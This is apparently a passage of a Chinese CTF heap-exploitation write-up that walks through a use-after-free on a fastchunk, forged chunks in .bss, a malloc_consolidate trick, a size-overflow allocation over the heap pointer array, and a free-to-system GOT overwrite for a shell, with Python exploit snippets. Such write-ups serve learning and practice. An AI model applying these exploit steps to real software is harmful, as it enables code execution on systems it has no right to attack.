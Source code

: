 ![](/images/d8d015b4af4a2fa06040e0029eb8887e.png)

### 利用 UAF 修改 fd，伪造 chunk
接着是利用 UAF 来修改 fastchunk 的 fd，让合并时 fastchunk 指向的 fakechunk 进入 unsortedbin

找到的 WP 都没提到这里为什么要在 bss 段伪造两个连续的 fakechunk，

我感觉应该是为了绕过 malloc_consolidate，在把 fakechunk 放进 unsortedbin 之前会检查前一个 chunk 的 size 跟合并的 fastchunk 的 size 是否一样（没找到资料，不知道是因为什么机制）

```python
add(1,b'c') #2 fastchunk
add(2,b'd') #3 smallchunk
free(2)#   ↓fakechunk_prev  ↓fakechunk   
fakechunk=p64(0)+p64(0x11)+p64(0)+p64(0xfffffffffffffff1)
edit(2,p64(0x602130)[:7],fakechunk)
```

smallchunk 要跟 topchunk 相邻

### 触发 malloc_consolidate
释放 smallchunk 触发 malloc_consolidate 将 fakechunk 放进 unsortedbin，然后再把 bss 段的 fakechunk 的 size 改回小于 topchunk 的大小，这样后面才能正常申请 0xa00000 的 chunk

```python
free(3)
fakechunk=p64(0x0)+p64(0x11)+p64(0)+p64(0xa00001)
edit(3,p64(0x602130)[:7],fakechunk)
```

可以提前在 chunk 里面放好"/bin/sh"，后面把 free 函数 got 表改成 system 之后就可以直接 free 这个 chunk 来 getshell 了

接着是申请一个 chunk 让它遍历一遍 unsortedbin 把 fakechunk 放进 largebin 里面，然后再把 size 改回0xfffffffffffffff1，这样后面的超级大 chunk 就可以正常申请了

```python
add(3,b'/bin/sh') #4 largechunk
fakechunk=p64(0x0)+p64(0x11)+p64(0)+p64(0xfffffffffffffff1)
edit(3,p64(0x602130)[:7],fakechunk)
```

### malloc 上溢申请到堆指针数组 chunk
fakechunk 的地址是 0x602130，程序 malloc 了 0xffffffffffffff70（int 等于 -0x90） 大小的 chunk，因为 size_t 是 unsignedint，所以这个时候 size 上溢出，在 malloc 完之后 remainder（fakechunk 剩下的部分）的地址就在 fakechunk 往上 0x90 的位置，也就是 0x6020a0，再申请一个 chunk 正好从 0x6020c0 开始

0x6020c0 就是 bss 段上面放着堆指针的数组起始地址

```python
add(13337,b'a') #5 "hugechunk"
```

### 修改堆指针->修改 free_got 为 system
```python
add(1,p64(elf.got['free'])[:7]) #6
edit(0,p64(elf.symbols['system'])[:7],b'a')
free(2)
```
